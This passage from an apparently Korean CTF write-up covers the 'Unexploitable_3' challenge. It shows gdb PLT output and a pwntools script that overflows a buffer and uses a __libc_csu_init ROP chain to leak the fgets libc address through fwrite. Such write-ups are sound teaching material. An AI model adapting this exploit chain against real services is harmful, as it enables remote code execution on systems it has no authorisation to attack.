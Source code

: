 gdb-peda$ plt
Breakpoint 1 at 0x4004f0 (__libc_start_main@plt)
Breakpoint 2 at 0x400500 (fgets@plt)
Breakpoint 3 at 0x400520 (fwrite@plt)
Breakpoint 4 at 0x400510 (setvbuf@plt)
</pre>
</pre>

**main=0x40065f** <br>
**stdout\_got=0x601050**<br>
**fwrite\_got=0x601030** <br>
**fgets\_got=0x601020**

`fgets()`의 주소를 leak하기 까지의 코드는 다음과 같다.

<pre>
from pwn import*

#p=process('./Unexploitable_3')
p=remote('ctf.j0n9hyun.xyz',3034)
#gdb.attach(p)


main=0x40065f
mov_rcx_ret=0x400658
pop_rdi_ret=0x400743
libc_csu_init_down=0x40073a
libc_csu_init_up=0x400720
stdout_got=0x601050
fwrite_got=0x601030
fgets_got=0x601020

p.recvline()

payload='A'*24
payload+=p64(pop_rdi_ret)
payload+=p64(stdout_got)
payload+=p64(mov_rcx_ret)
payload+=p64(libc_csu_init_down)
payload+=p64(0)          #rbx=0
payload+=p64(1)          #rbp=rbx
payload+=p64(fwrite_got) #r12=call
payload+=p64(6)          #r13=rdx
payload+=p64(1)          #r14=rsi
payload+=p64(fgets_got)  #r15=rdi
payload+=p64(libc_csu_init_up)
payload+=p64(0)*7
payload+=p64(main)

p.sendline(payload)

fgets_address=u64(p.recv(6).ljust(8,'\x00'))

log.info("fgets_address is "+str(hex(fgets_address)))

p.interactive()
</pre>
